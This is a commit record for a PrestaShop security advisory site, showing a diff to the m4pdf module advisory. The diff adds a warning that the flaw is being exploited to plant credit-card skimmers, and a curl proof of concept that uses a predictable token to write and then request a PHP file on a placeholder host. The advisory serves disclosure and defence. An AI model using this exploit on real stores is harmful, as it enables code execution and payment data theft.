

Before and after one commit to friends-of-presta/security-advisories, a Jekyll site: the page built from _posts/2024-06-20-m4pdf.md, in a window 1280 px wide and 1400 px high, scrolled down 1067 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2024-06-20-m4pdf.md

````diff
--- a/_posts/2024-06-20-m4pdf.md
+++ b/_posts/2024-06-20-m4pdf.md
@@ -34,6 +34,8 @@ This exploit uses a PrestaShop front controller and most attackers can conceal t
 
 **WARNING** : The module still own sensitive to critical issues because author refuse to update its logical authentication flaw, you should consider to delete it or put its front controller under IP restriction, if you do so, you must be aware of [this](https://github.com/PrestaShop/PrestaShop/blob/1.7.7.x/classes/Dispatcher.php#L1092).
 
+**Edit 2024-09-10 - WARNING** : This exploit is actively used to deploy webskimmer to massively steal credit cards. Since POC is now exploited, it is considered public.
+
 ## CVSS base metrics
 
 * **Attack vector**: network
@@ -54,6 +56,11 @@ This exploit uses a PrestaShop front controller and most attackers can conceal t
 * Copy/paste data from sensitive tables to FRONT to expose tokens and unlock admin's ajax scripts
 * Rewrite SMTP settings to hijack emails
 
+## Proof of concept
+
+```bash
+curl -v -X POST -d 'fc=module&module=m4pdf&controller=pdf&nav=1&action=save&action_target=test.php&template=test&m4token=PREDICTABLE_TOKEN&editor_content=<?= 42;' 'https://preprod.X/' && curl -v 'https://preprod.X/modules/m4pdf/tpl/test.php'
+```
 
 ## Other recommendations
 
````
